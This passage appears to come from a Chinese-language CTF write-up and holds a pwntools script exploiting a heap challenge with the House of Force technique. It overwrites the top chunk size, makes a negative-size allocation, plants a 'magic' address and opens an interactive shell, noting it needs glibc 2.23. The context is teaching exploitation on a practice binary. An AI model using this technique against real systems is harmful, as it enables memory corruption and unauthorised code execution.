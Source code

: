 ```python
def del_note(idx):
    sh.sendlineafter('choice:','4')
    sh.sendlineafter('item',str(idx))

length = 0x60
add_note(length,'a'*8)

pause()
payload = 'A' * length + p64(0x0) + p64(0xffffffffffffffff)
change_note(0,len(payload),payload)

# a的chunk 总大小是 length + 0x10，v 的 chunk 大小是0x20，SIZE_SZ 是 0x10。原本就是对齐的，所以不需要+ mask
req = -( length  + 0x10 ) - 0x20 - 0x10
add_note(req,'a' * 8)

add_note(0x10,p64(magic)*2)

sh.sendlineafter('choice:','5')
sh.interactive()
sh.close()

```

## 注意

仍旧需要在glibc2.23的环境下才能跑。[为什么啊！！]

